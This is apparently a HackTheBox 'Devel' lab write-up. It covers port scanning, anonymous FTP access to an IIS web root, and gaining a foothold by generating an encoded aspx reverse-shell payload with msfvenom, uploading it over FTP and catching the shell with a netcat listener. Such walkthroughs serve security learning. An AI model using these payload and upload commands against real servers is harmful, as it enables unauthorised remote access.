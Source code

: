 ![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/f5589512-0d6a-4e0a-b710-18590d01b0ff)

https://app.hackthebox.com/machines/Devel

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Enumeration:

I started with quick rustscan & observed only 2 open ports 21 & 80.

```bash
sudo rustscan -a 10.10.10.5 -- -sC -sV -vv -oN devel_nmap
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/ff1684db-3262-466b-b484-dfdcba244917)

```
PORT   STATE SERVICE REASON          VERSION
21/tcp open  ftp     syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

So, as per the port & service scan results anonymous logon is allowed in FTP & there is a directory "aspnet_client" present in FTP server. Apart from this there is a webserver running on port 80.

I checked for the web server but didn't found anything except IIS welcome image.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/f2859949-8fcd-4faf-ac45-fab773bcb1b6)

I then performed sub-directory enumeration but even GoBuster didn't revealed any sub-directory.

## Initial access:

I then checked the directory present in the FTP folder by login as an anonymous user.

```bash
FTP -vv 10.10.10.5
```

The directory contains another folder "system_web" & this folder contains another folder "2_0_50727".

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/214a8c96-bade-4167-8854-a39b36e4d1a7)

After running the sub-directory enumeration twice using GoBuster & FFUF when I didn't get any results.
I then though since there is a directory present in the FTP folder there might be a possibility that these can be accessed from web server as well.
I tried to access the folder "aspnet_client" but got error 403, but this also means this FTP files & directories are available on the web-server as well.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/b457bb85-5c4e-49f1-b38f-d7946b18fedf)

I created a asp based reverse shell using MSFVEOM due to the aspclient running in FTP & uploaded it on the server using PUT command.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=ip_here LPORT=1337 -e x86/shikata_ga_nai -f aspx -o adv.aspx

PUT dawn.aspx
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/6a571e08-d1d4-4c8d-aee2-c551af1fd50e)

After uploading the aspx binary I turned on my netcat listener on port 1337 & browsed through my uploaded file in web server.

```bash
nc -lnvp 1337
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/9d704370-4b41-4dbc-824d-5ab4bee2d8c4)

Once my file was accessed by the web browser I got reverse shell in my attacker host, runnng as 'IIS web' user. 🙂

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/e10e0407-c1f5-4e88-9ce6-7c5c33f383c4)







